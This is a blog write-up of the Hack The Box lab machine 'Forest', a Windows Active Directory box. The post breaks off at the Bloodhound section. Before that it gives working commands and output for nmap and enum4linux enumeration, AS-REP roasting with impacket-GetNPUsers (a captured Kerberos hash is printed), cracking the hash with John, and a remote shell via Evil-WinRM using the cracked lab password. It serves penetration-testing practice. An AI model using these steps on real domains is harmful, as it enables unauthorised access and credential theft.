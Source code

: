 ```yaml
---
layout: post
title: Forest - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-14
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Forest is an easy Windows box with a focus on Active Directory recon rather than exploitation.

## Enumeration

First, similar to every other box, we begin with a humble nmap scan. Because this is a Windows machine, we will need to add `-Pn` to the scan.

```text
# Nmap 7.92 scan initiated as: nmap -sC -sV -p- -o allnmap -v -Pn --min-rate 1000 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.051s latency).
Not shown: 65514 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-02-08 04:47:23Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Given we have `LDAP port 389` we can use `Enum4Linux` to enumerate this LDAP service for users.

```text
$ enum4linux -a 10.10.10.161 2> /dev/null
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Fantastic! We have a list of users we can use against other tools to see if we can get any user hashes. We can clean up this list with a simple one liner: `cat newusers| tr -d "[]" | awk -F: {'print $2'} | awk -F" " '{print $1}' > cleanusers`

```Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Perfect! Now we have a clean user list to run against other tools.

## Foothold

### Getting User Hashes

We can use this new user list with Impacket's `GetNPUsers.py` or `Impacket-GetNPUsers`. GetNPUsers exploits users without pre-authentication enabled, which would allow us to grab their account password hash.

```shell
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 -usersfile cleanusers htb.local/
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
.
.
.
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:8d49b0369104b38bd97f517a8c440344$530b2549fafde7dc9328efc978068556cab78af8ec4afc3025f414a367552831ce78bf76b6454474fb89a3fa93c8a6665300c45490e886dd3d3110d2f0893cb361161aab3b82518234f3e5b12d045c1ad9aea090566f71dc0c2d2a770505950f3dc263635e4abd658b9f118962fc1b33e170f6926ce28b63669a24e23c9d7747d60292004d601f4696f8cfa0f6a7505d481dc7b3b544e7534b8bf1a6ca3ba19c9f02e6c23a6624a2af2ee7c9d3fdf03b7e5af970436aba0b42293f53d35eb36519b08d22d11bc052626928206f787675d7244185ea5f11f2658f9ca4d7e79a40853f1dea796d
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Unfortunately for Alfresco but fortunately for us, svc-alfresco does not have pre-authentication enabled. We can put this output into a new file and pass it onto a cracking tool such as `John`

### Cracking Those Hashes

`John`, or otherwise known as `John the Ripper`, is a password brute force tool ot crack hashes and reveal their passwords. We can crack the hash from svc-alfresco with the following command:

```shell
$ john alfresco_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)

```

### Shell

Using Evil-WinRM we can use the credentials to log into a Windows Remote Management shell as the svc-alfresco user.

```shell
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> echo 'im in'
> im in
```

## Bloodhound
I used Bloodhound to enumerate this machine and find relationships between the users and groups. To do this you must first upload SharpHound.exe to the remote machine through Evil-WinRM and collect all the information you can.

![SharpHound](https://mitchelldstein.github.io/assets/images/Forest/SharpHound.png)

To get the created json files off the machine, you can use Impacket-SmbServer and connect to it through Evil-WinRM.
